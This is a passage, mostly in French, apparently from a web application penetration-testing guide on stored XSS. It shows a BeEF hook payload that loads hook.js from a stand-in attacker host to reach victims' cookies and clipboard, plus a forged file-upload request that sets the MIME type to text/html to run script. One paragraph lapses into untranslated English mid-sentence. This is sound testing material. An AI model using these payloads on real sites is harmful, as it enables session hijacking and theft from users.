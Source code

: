 Le hook JavaScript peut être injecté en exploitant les vulnérabilités
XSS de l'application web.

<b>Exemple</b>: Injection BeEF dans index2.php :

    aaa@aa.com”><script src=http://attackersite/hook.js></script>

Quand l(utilisateur charge la page index2.php, le script hook.js est
exécuté par le navigateur. Il est alors possible d'accéder aux cookies,
captures d'écrans et presse-papier de l'utilisateur, et de lancer des
attaques XSS complexes.

**Resultat attendu**

![Image:RubyBeef.png](RubyBeef.png "Image:RubyBeef.png")

Cette attaque est particulièrement efficace sur les pages vulnérables
visitées par un grand nombre d'utilisateurs ayant des privilèges
différents.

**Envoi de fichier**

Si l'application autorise l'envoi de fichier, il est important de
vérifier s'il est possible de télécharger du contenu HTML. Par exemple,
si des fichier HTML ou TXT sont autorisés, une charge utile XSS peut
être injectée dans le fichier envoyé. Le pen-testeur doit aussi
vérifier si l'envoi de fichier autorise des types MIME arbitraires.

Considérons la requête HTTP POST d'envoi de fichier suivante :

    POST /fileupload.aspx HTTP/1.1
    […]

    Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
    Content-Type: text/plain

    test

Ce défaut de conception peut être exploité lors d'une attaque de
mauvaise gestion de MIME de la part du navigateur. Par exemple, des
fichier This design flaw can be exploited in browser MIME mishandling
attacks. For instance, innocuous-looking files like JPG and GIF can
contain an XSS payload that is executed when they are loaded by the
browser. This is possible when the MIME type for an image such as
image/gif can instead be set to text/html. In this case the file will be
treated by the client browser as HTML.

Requête HTTP POST falsifiée :

    Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
    Content-Type: text/html

    <script>alert(document.cookie)</script>

Il faut aussi prendre en compte le fait qu'Internet Explorer ne gère pas
mes types MIME de la même manière que Mozilla Firefox ou d'autres
navigateurs. Par exemple, Internet Explorer interprête les fichiers TXT
avec du contenu HTML comme des pages HTML. Pour plus d'information sur
la gestion des types MIME, voir la section whitepapers en fin de
chapitre.
